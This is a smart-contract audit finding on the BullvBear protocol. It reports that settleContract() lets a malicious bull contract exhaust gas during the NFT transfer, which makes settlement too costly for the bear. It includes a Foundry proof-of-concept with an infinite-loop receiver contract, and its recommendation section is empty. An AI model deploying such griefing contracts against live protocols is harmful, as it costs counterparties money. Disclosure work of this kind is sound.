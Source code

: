 KingNFT

medium

# [M-01] Bull can gain trading edge by dramatically increasing transaction cost for settlement

## Summary
The 'settleContract()' function has no gas limit while transferring collection to bull. Bull can use as much gas as possible to dramatically increase transaction cost for settlement and gain trading edge.

## Vulnerability Detail
As shown in the test case below, bear need to pay up to 2_770_000 gas to execute 'settleContract()'.
Let's say
```solidity
current market is in bear's favor, bear would earn 100$ profit from bull by settling contract.
```
And the gas cost is
```solidity
50 Gwei
```
ETH price is
```solidity
$2000
```
Then, the transaction cost is about
```solidity
2_770_000  * 50 Gwei * 2000$ = 277$
```
Profit is less than transaction cost , the bear will not do settlement. So financially speaking the bull gain 277$ trading edge in this case.


https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L394

## Impact
Bull can gain trading edge.

## Code Snippet
Related source code
```solidity
function settleContract(Order calldata order, uint tokenId) public nonReentrant {
    // ...
    // @audit no gas limit
    try IERC721(order.collection).safeTransferFrom(bear, bull, tokenId) {}

    catch (bytes memory) {
        IERC721(order.collection).safeTransferFrom(bear, address(this), tokenId);
        withdrawableCollectionTokenId[order.collection][tokenId] = bull;
    }

    // ...
}
```

Test case, put it into 'gasAttack.t.sol' file of 'test' directory.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.17;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Base} from "./Base.t.sol";

import {BvbProtocol} from "src/BvbProtocol.sol";


contract BadBull {
    uint256 private _junk;
    function onERC721Received(
        address ,
        address ,
        uint256 ,
        bytes calldata
    ) external {
        while (true) { // @audit run out gas, this is about 63/64 of total remaining gas
            _junk += 1;
        }
    }
}

contract ExhaustGasAttack is Base {
    function setUp() public {
        bvb.setAllowedAsset(address(weth), true);
        bvb.setAllowedCollection(address(doodles), true);

        bull = address(new BadBull());
        deal(address(weth), bull, 0xffffffff);
        deal(address(weth), bear, 0xffffffff);
        vm.prank(bull);
        weth.approve(address(bvb), type(uint).max);

        vm.prank(bear);
        weth.approve(address(bvb), type(uint).max);
    }

    function testExhaustGasAttack() public {
        BvbProtocol.Order memory order = defaultOrder();
        order.maker = bear;
        order.isBull = false;

        bytes32 orderHash = bvb.hashOrder(order);

        // Sign the order
        bytes memory signature = signOrderHash(bearPrivateKey, orderHash);

        // Taker (Bull) match with this order
        vm.prank(bull);
        bvb.matchOrder(order, signature);

        // Give a NFT to the Bear + approve
        uint tokenId = 1234;
        doodles.mint(bear, tokenId);
        vm.prank(bear);
        doodles.setApprovalForAll(address(bvb), true);

        // Settle the contract
        vm.prank(bear);
        vm.expectRevert();
        bvb.settleContract{gas: 2_760_000}(order, tokenId); // @audit fail

        vm.prank(bear);
        bvb.settleContract{gas: 2_770_000}(order, tokenId); // @audit success

    }
}
```
## Tool used

Manual Review

## Recommendation
